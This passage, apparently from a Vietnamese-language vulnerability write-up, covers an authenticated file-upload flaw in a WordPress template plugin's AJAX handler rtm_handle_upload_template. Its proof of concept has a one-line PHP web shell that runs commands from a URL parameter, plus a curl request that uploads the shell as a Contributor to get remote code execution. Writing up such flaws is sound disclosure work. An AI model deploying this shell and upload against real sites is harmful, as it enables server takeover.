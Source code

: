 > [!INFO]
> Ở đây file không được giải nén thẳng nên không thể sử dụng kỹ thuật **Zip Slip** để di chuyển file vào thư mục cao hơn.
>
> Cuối cùng file được lưu trong trong `{wp_upload_dir}/rometheme_template/{hashId}/`

6. Trả về JSON 

---

`rtm_handle_upload_template()` được đăng ký làm callback cho action hook:

```php
add_action('wp_ajax_rtm_handle_upload_template', [$this, 'rtm_handle_upload_template']);
```

Có nghĩa là: Khi người dùng gửi yêu cầu AJAX đến `wp-admin/admin-ajax.php` với `action=rtm_handle_upload_template`, hàm `rtm_handle_upload_template()` sẽ được gọi để xử lý yêu cầu.

### Flow

{{< mermaid >}}
graph LR;
A[POST REQUEST /wp-admin/admin-ajax.php?action=rtm_handle_upload_template] --> B["rtm_handle_upload_template()"]
B --> C{is .zip extension}
C -->|True| D{"check_ajax_referer()"}
C -->|False| E["wp_send_json_error()"]
D -->|True| F["template_extract()"]
D -->|False| G[Return 401]
F -->|Extract To| H["{wp_upload_dir}/rometheme_template/{hashId}/"]
{{< /mermaid >}}

## Exploit

### Proof of Concept (PoC)

1. Đăng nhập bài tài khoản **Contributor**
2. Tạo post và edit bằng **Elementor**
3. Gọi `rkit_libs.template_nonce` để lấy nonce
4. Tạo file để RCE 
```php
<?php system($_GET['cmd']) ?>
```
5. Nén file vừa tạo
```zsh
zip rce.zip rce.php
```
6. Gửi request upload file

```zsh
curl -X POST "http://localhost/wp-admin/admin-ajax.php" \
  -b "your_cookie" \
  -F "action=rtm_handle_upload_template" \
  -F "nonce=your_nonce" \
  -F "file=@rce.zip;filename=rce.zip;type=application/zip"
```
